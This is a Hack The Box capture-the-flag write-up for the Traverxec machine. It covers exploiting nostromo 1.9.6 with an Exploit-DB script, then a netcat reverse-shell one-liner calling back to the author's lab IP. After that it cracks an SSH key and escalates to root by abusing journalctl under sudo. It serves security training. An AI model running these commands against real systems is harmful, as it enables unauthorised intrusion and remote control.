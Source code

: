 ```yaml
---
layout: single
title: "Hack The Box Write-up #1 : Traverxec"
excerpt: "My walkthrough of Traverxec Machine from HackTheBox"
date: 2020-04-11
header:
  teaser: /assets/images/traverxec-walkthrough/traverxec.png
  teaser_home_page: true
classes: 
  - landing
categories:
  - hackthebox
  - infosec
tags:
  - nostromo  
  - journalctl
  - gtfobins
---
```


![Card](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/traverxec.png)

## Enumeration

We start by doing a nmap scan which gives the following results :

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-21 04:12 EST
Nmap scan report for traverxec.htb (10.10.10.165)
Host is up (0.26s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.82 seconds
```

We have 2 ports opened from the initial scan : 22 (SSH) , 80 (HTTP) …                                                            
Before even trying to enumerate the webpage , We can notice “nostromo 1.9.6” running on port 80.                                  

I made a quick research of the mentioned service running on the webpage and ended up with the
following results :
![searchsploit](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t2.png)

- Command Execution… 

That seems nasty.
First lets copy the the script to a more flexible directory and start to test it.

```
cp /usr/share/exploitdb/exploits/multiple/remote/47837.py  /root/machines/traverxec
```

```
python 47837.py
```

![rce](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t3.png)

We see there are 3 required parameters : 
- Target ip address (10.10.10.165) 
- Target Port (80) 
- Command to execute (ex. Whoami).

```
python 47837.py 10.10.10.165 80 whoami
```

![proof](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t4.png)

As we see … we could execute commands to the remote server using the script from exploitdb.
Lets try and see if we can get ourselves a reverse shell to have a better experience while running commands on the remote server.

We are going to use netcat to do this…

```
python 47837.py 10.10.10.165 80 “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.140 9001 >/tmp/f”
```

![shell](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t5.png)

We have a reverse shell on the remote server as www-data.
From now we can try and enumerate the webserver in /var/nostromo :

![enum](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t6.png)

There seems to be the conf folder which may include possible information on how to escalate to user.

Reading nhttpd.conf file We see a lot of juicy information :

![conf](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t7.png)

We can see that david which is also an user in the current machine seems to have been configured as the server admin, and more than that we can see that the public_www folder is located in /home

While we tried to enumerate … there was no such public_www in /home :

![home](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t8.png)

But since we saw : david was the server admin , the public_www should probably be inside his folder too.
We cannot actually list the files inside david home folder but we can try to directly access the mentioned directory as www-data and see if we can find something else :

![data](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t9.png)

As expected , we could directly access : public_www and we see the index.html file alongside an interesting directory claiming to hold protected files .                                                                                                                                                          
There seems to be a backup of the ssh keys inside there so I grabbed the files to my machine to try and login as user david

![backup](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/tx.png)

## USER ESCALATION

id_rsa seems to be encrypted and we can probably use john to convert and try to crack it :
![hash](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t10.png)

We pass the generated ssh hash to john and run it against rockyou.txt wordlist to see if we could get anything interesting…

![key](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t11.png)

John managed to succesfully crack the file , and the key seems to be “hunter”.                                                  
Lets try and login with the file since we have its key now :

![ssh](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t12.png)

We could succesfully login using ssh and now we can also easily grab the user flag. :)


## ROOT ESCALATION

After logging in , this is what we have in the home folder except user.txt :

![content](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t13.png)

- bin seems interesting , so we will enumerate it a little more to see what could it bring to us…

We have 2 files inside bin folder :

- A script written in bash which happens to read the last 5 log lines of nostromo :

![script](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t14.png)

- A header for the above script :

![header](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t15.png)

By analyzing the first script , we see that it is running journalctl as sudo against nostromo service to show the last 5 lines, and also I noticed that the execution of /usr/bin/cat prevents journalctl from remaining executed .

It looks like we have permissions to run the above sudo command against nostromo without the need of the password .

The bin folder is writable from our user so we can try to make another similar script but without usr/bin/cat in it . This way journalctl can remain executed on the script and we can try to abuse it somehow to escalate to root.

![customs](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t16.png)

As we see now , after executing our edited script , journalctl remains executed and now we can attempt to abuse it to gain root access …

The following website can help us with the simplest methods to escalate to a root shell from journalctl:
[GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/)

And as we see , we can simply type !/bin/sh in the running session of journalctl to get a system shell

![root](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t17.png)

This happened to work perfectly … and now we have a shell executed as root .

![root](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t18.png)

This way we can easily navigate to root folder and grab the root flag.

### TRAVERXEC WAS INDEED A GOOD EASY BOX AND WE ENJOYED IT MAXIMALLY WHILE NAVIGATING THROUGH THE STEPS.

## THANK YOU FOR READING !

![profile](https://www.hackthebox.eu/badge/image/111862)
